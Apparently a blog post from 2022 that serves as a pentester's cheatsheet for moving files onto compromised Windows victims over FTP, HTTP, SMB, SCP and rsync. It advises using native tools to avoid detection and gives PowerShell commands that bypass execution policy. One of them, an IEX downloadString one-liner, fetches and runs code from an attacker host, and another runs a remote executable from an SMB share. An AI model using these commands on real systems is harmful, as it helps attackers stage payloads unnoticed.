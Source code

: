 +++
title = 'Pentester’s Guide to Performing File Transfers'
date = 2022-06-08
draft = false
showtoc=true
tags= ["File Transfers", "Cheatsheet", "Tooling", "Pentesting", "Tutorial"]
+++
![](https://cdn-images-1.medium.com/max/800/1*HNC0lT4gPMDU8uH0fyjRyw.png)

Foreword
========

To avoid detection, it is best to use tools that are native to the victim’s computer.

FTP with Windows Host
=====================

While having a shell on the Windows machine, start an FTP server on your host machine. Follow these steps if you don’t already have FTP server installed:


```
sudo apt-get install vsftpd  
sudo service vsftpd start  
service vsftpd status #status should be active
```
To check if your server is working, type `ftp localhost.` If you see the message “Connected to localhost”, your FTP server is running.

![](https://cdn-images-1.medium.com/max/800/1*ehYiaPXjraslOYhNqIv7Zw.png)
Accessing File With Interactive Shell
-------------------------------------

If you have an interactive shell on the Windows machine, run this command.


```
cscript wget.vbs http://<YOUR IP>/<PATH TO FILE> <FILENAME TO SAVE AS>
```
Accessing File With Non-Interactive Shell
-----------------------------------------

If you don’t have an interactive shell, you can’t start PowerShell.exe. A workaround is to create a PowerShell script and execute it:


```
echo $storageDir = $pwd > wget.ps1  
echo $webclient = New-Object System.Net.WebClient >>wget.ps1  
echo $url = "http://<YOUR IP>/<PATH TO FILE>" >>wget.ps1  
echo $file = "output-file.exe" >>wget.ps1  
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
To invoke`wget.ps1`, call


```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

```
-ExecutionPolicy Bypass -noLogo -NonInteractive --- stealthly
```

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<YOUR IP>/<FILENAME>')"
```

```
IEX(New-Object Net.WebClient).downloadString('http://<YOUR IP>/<FILENAME>')
```
![](https://cdn-images-1.medium.com/max/800/1*nBHrLvu-D9RNlMsbTG3Wsg.jpeg)
Getting Files Through PowerShell
================================

On your Kali Linux machine, make a copy of the file you want to send to `/var/www/html/` . On the Window’s machine, execute the following:


```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.10.128/unko.txt','C:\Users\Administrator\Desktop\transferme.txt')"
```

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.146/gori.ps1')"
```
File Transfer With SMB
======================

Method 1
--------

Get `smbserver.py`from [Impacket](https://github.com/SecureAuthCorp/impacket) and run the following on your Kali Linux machine:


```
smbserver.py gori $(pwd) -smb2support -user gori -pass gorigori
```
Run this on the victim’s machine:


```
New-PSDrive -Name "gori" -PSProvider "FileSystem" -gori "\\<YOUR IP>\gori"
```
Method 2
--------

Run this on your Kali machine:


```
smbserver.py kali .
```
Run this on the victim’s machine:


```
On victim's \\<YOUR IP ADDRESS>\kali\FILE\_NAME.exe "whoami" # "whoami" confirms that it is running
```
![](https://cdn-images-1.medium.com/max/800/1*i6K6JFM5TTxSFf4b_ermuQ.png)
File Transfer With an HTTP Server
=================================

On your machine run:


```
python3 -m http.server 80
```
This will start an HTTP server on port 80 with the root of the HTTP server being in the directory that you executed the command from. To get a file, run this on the victim’s machine:


```
wget http://<YOUR IP>/path/to/file.txt
```
File Transfer with SCP and RSYNC
================================

Both of these methods of file transfer occur over SSH. Secure Copy Protocol (SCP) is being deprecated, however, if you’re able to use it, the syntax is fairly simple.


```
scp <SOURCE> <DESTINATION>
```
In this example, we are using SCP to copy a file from a remote host to the working directory of our local machine such that our computer is on the receiving end.


```
scp username@ip_address:/home/username/filename
```
If you are looking to transfer a file from your computer to the remote host, the following syntax can be used:


```
scp filename username@ip_address:/home/username
```
The same commands can be used with RYSNC by simply replacing `scp` with `rsync` .


```
rsync <SOURCE> <DESTINATION>
```
Conclusion
==========

There are countless ways to transfer files between two computers. Among the most common methods are HTTP and FTP, but if those don’t work, there is a chance that some of the other options here will. Some honorable mentions that I didn’t go into detail on are SSHFS, SFTP, Winscp, and Samba. I hope that you were able to find value in this article and remember to never stop learning.